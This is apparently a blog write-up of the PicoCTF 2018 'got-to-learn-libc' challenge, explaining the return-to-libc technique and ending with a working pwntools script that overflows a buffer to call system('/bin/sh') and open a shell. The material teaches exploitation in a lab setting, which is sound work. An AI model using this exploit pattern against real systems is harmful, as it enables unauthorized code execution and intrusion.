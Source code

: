 ```yaml
---
layout: post
title: Binary Exploitation: got-to-learn-libc (250) - PicoCTF 2018
categories: [general, CTFs]
tags: [CTFs, picoCTF2018]
fullview: true
comments: true
---
```


So this challenge was a great introduction for the concept of ret-2-libc.
As we run the binary we were given a several addresses from libc, that may be really  useful in our exploit.
> Here are some useful addresses:
> 
> puts: 0xf7e2bb40
>
> fflush 0xf7e29cb0
>
> read: 0xf7eaacb0
>
> write: 0xf7eaad80
>
> useful_string: 0x56575030

*Keep in mind that this addresses are random when running the binary on  the remote server due to ASLR.

So apparently we get the addresses of some functions that can be found in libc, as well as an address of a "useful_string".
By examine the binary with GDB we can view the content of this particular address, and we found out that it points to the following string

>  gdb-peda$ x/s 0x56557030
>
> 0x56557030 <**useful_string**>: "/bin/sh"

Knowing that our goal is getting a shell, having the address of `"/bin/sh"` is very useful. Basically our goal is to find a way to call `system` with `"/bin/sh"`, as it will result with a shell on the remote server, and the ability to view the content of flag.txt.

# So what is actually the "ret-2-libc" technique? 
Simply put, "return-to-libc" allows us to bypass protections like NX on the stack which defeat execution from stack. So even if we have a buffer-overflow (And we do have one in this challenge), we can't just write our shell-code to the stack and overwrite the return address to jump back to it and execute the shell-code, because the stack is protected.
What we can do, however, is to use the fact we have a buffer overflow to create a fake function stack frame, consisting of the address of a function that is already loaded into the process' memory (`system`) and give it an appropriate argument (in this case, the address of `"/bin/sh"`).

* You may check the following article to get a better grip and knowledge about ret-2-libc - [Return-to-libc - ExploitDB](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf) 


So the stack should look like this:

|Before|
|---|
|**Lower Memory Address**|
|Real Return Address|
|something|
|something|
|**Higher Memory Address**|


|After |
|---|
|**Lower Memory Address**|
|System's Address|
|Fake Return Address |
|"/bin/sh" Address|
|**Higher Memory Address**|

Notice that we use a fake return address because when a function is called the arguments are pushed first, and than the return address is pushed as well.


# Getting the address of system 
It's about time we'll take advantage of the functions' address we got.
Basically, we only need an libc address of one function.
As I mentioned earlier there is a possibility  we have an ASLR protection on the remote server so the address of `system` is different each time, but the difference between the address of another libc function (`puts` for example) and the address of `system` is always the same - offsets don't change.

Since we have access to libc in the path `lib/i386-linux-gnu/libc.so.6`we can use `readelf` to get the offset of puts from the `libc base address` and than adding to that address the offset of `system` which will give us the long-awaited address of `system`.
So `readelf -s lib/i386-linux-gnu/libc.so.6 | grep puts` gave us the offset `0x5f140`, and `readelf -s lib/i386-linux-gnu/libc.so.6 | grep system` gave us the offset 0x3a940. 

# The script
```python
from pwn import *

addresses = {}
SYSTEM_OFFSET = 0x3a940
PUTS_OFFSET = 0x5f140

def get_useful_addresses():
	r.recvline()
	r.recvline()
	add = r.recvuntil("Enter")
	for address in add.split("\n"): 
		if address != "" and address != "Enter" and ":" in address:
			addresses[address.split(": ")[0]] = address.split(": ")[1] 

def handle_logic():
	get_useful_addresses()
	r.recvuntil("ring:")
	libc_base_address = hex((int(addresses['puts'], 16) - PUTS_OFFSET))
	system_libc_address = hex(int(libc_base_address, 16) + SYSTEM_OFFSET)
	print ("libc base address - " + libc_base_address)
	print ("system libc address - " + system_libc_address)
	payload = "A"*160
	payload += p32(int(system_libc_address, 16))
	payload += p32(int("0xdeadbeef", 16)) 
	payload += p32(int(addresses['useful_string'],16))
	r.sendline(payload)
	

if __name__ == "__main__":
	r = process(['./vuln'])
	handle_logic()
	r.interactive()
```

